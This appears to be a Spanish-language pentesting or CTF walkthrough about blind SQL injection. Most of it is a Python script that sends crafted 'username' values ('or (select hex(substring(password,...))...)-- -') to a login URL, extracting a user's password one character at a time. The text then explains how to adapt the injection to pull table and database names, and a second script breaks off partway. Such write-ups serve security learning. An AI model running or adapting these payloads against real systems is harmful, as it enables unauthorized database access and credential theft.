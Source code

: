 ```python
def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        password = ""

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select hex(substring(password, %d,1)) from users where username='enemigosss')=hex('%s')-- -" % (position, character),     #Donde pone hex() significa que estamos jugando con el formato hexadecimal para que nos detecte si es mayuscula o minuscula la letra y con sus respectibos simbolos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

A parte si queremos saber como se llama la tabla que contiene ese usuario, podremos utilizar una tabla que suele venir por defecto en las bases de datos llamada `name` por lo que sustituimos `username` por `name`...

Si queremos sacar el nombre de la base de datos, tendremos que modificar la inyeccion de codigo de otra manera, por lo que el script se tendra que modificar a las necesidades de cada uno...

> EJEMPLO (NOMBRE BASE DE DATOS)

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

```